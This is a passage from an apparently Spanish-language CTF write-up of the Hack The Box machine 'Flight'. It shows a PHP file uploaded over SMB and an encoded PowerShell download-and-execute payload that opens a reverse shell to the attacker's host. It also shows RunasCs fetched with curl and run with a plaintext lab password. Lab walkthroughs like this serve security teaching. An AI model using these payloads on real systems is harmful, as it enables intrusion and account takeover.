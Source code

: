 {% highlight bash %}
# Puedes subir el archivo en el dominio que desees.
smb: \> ls
  .                                   D        0  Sat May  6 04:57:01 2023
  ..                                  D        0  Sat May  6 04:57:01 2023
  flight.htb                          D        0  Sat May  6 04:57:00 2023
  school.flight.htb                   D        0  Sat May  6 04:57:01 2023

		5056511 blocks of size 4096. 1196517 blocks available
smb: \> cd flight.htb
smb: \flight.htb\> put resource.php
putting file resource.php as \flight.htb\resource.php (0.1 kb/s) (average 0.1 kb/s)
smb: \flight.htb\> ls
  .                                   D        0  Sat May  6 04:59:03 2023
  ..                                  D        0  Sat May  6 04:59:03 2023
  css                                 D        0  Sat May  6 04:57:00 2023
  images                              D        0  Sat May  6 04:57:00 2023
  index.html                          A     7069  Thu Feb 24 01:58:10 2022
  js                                  D        0  Sat May  6 04:57:00 2023
  resource.php                        A      120  Sat May  6 04:59:03 2023

		5056511 blocks of size 4096. 1196517 blocks available
{% endhighlight %}

Si vamos al recurso que subimos pues no tendremos problema en verlo y pedirle que ejecute un comando

![Command execution](/assets/writeups/flight/6.png)

Vamos a lanzarnos una reverse shell

{% highlight powershell %}
http://flight.htb/resource.php?resource=powershell%20-EncodedCommand%20SQBFAFgAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA5ADoAOAAwADAAMAAvAHUAdABpAGwALgBwAHMAMQAiACkAKQAKAA==
{% endhighlight %}

{% highlight bash %}
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.187 53452
Windows PowerShell Testing 
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\flight.htb>
{% endhighlight %}

Ahora, para poder cambiar de usuario dado que no podemos usar WinRM utilizaremos el programa [RunasCs](https://github.com/antonioCoco/RunasCs) para ejecutar comandos como otros usuarios, descargándolo y probándolo parece que funciona

{% highlight powershell %}
PS C:\Users\svc_apache\Documents> curl -o RunasCs.exe http://10.10.14.39:8000/RunasCs.exe
PS C:\Users\svc_apache\Documents> ./RunasCs.exe c.bum Tikkycoll_431012284 whoami
[*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
flight\c.bum
{% endhighlight %}
